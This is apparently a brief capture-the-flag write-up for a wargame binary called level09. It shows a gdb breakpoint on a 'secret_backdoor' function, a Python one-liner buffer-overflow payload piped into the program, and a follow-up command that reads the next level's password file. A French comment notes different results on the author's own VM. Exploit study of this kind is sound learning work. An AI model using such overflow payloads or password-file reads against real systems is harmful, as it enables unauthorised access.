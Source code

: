 (gdb) b secret_backdoor 
Breakpoint 1 at 0x555555554890

(python -c 'print("A" * 40 + "\xca" + "\x8c\x48" * 146)') | ./level09

```sh
$ (python -c 'print("A" * 40 + "\xca" + "\x8c\x48" * 146)'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
```

j'ai un résultat différent dans ma vm chez moi, très bizarre
